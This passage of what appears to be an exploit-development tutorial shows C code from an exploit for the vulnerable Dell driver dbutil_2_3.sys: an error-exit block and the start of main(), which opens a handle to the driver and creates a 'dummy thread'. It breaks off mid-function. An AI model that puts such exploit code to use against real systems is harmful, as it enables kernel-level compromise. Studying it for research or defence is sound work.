 ```c
//
// Execution comes here if an error is encountered
//
exit:

	//
	// Close the handle to the "dummy thread"
	//
	CloseHandle(
		dummythreadHandle
	);

	//
	// Return the NTSTATUS error
	//
	return (ULONG64)retValue;
}
```

Here is how our `main()` function looks now:

```c
/**
 * @brief Exploit entry point.
 * @param Void.
 * @return Success (0) or failure (1).
 */
int main(void)
{
	//
	// Invoke getHandle() to get a handle to dbutil_2_3.sys
	//
	HANDLE driverHandle = getHandle();

	//
	// Error handling
	//
	if (driverHandle == (HANDLE)-1)
	{
		//
		// Print update
		//
		printf("[-] Error! Couldn't get a handle to dbutil_2_3.sys. Error: 0x%lx", GetLastError());

		//
		// Bail out
		//
		goto exit;
	}

	//
	// Print update
	//
	printf("[+] Obtained a handle to dbutil_2_3.sys! HANDLE value: %p\n", driverHandle);

	//
	// Invoke getthreadHandle() to create our "dummy thread"
	//
	HANDLE getthreadHandle = createdummyThread();

	//
	// Error handling
	//
	if (getthreadHandle == (HANDLE)-1)
```